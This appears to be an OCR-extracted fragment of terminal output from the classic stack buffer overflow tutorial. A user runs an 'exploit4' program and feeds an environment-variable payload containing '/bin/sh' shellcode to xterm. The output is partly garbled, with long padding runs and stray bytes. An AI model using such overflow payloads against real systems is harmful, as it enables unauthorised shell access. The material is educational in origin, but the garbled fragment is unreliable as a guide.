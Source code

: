 ```shell






HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH








HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH








HHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH








HHHHHHHHHHHH
Warning: some arguments in previous message were lost
Illegal instruction
[aleph1]$ exit
```
```console
[...]
```
```shell
[aleph1]$ ./exploit4 2148 600
Using address: 0xbffffb54
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF
                           
                            V

1@/bin/shTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTT








TTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTT





```
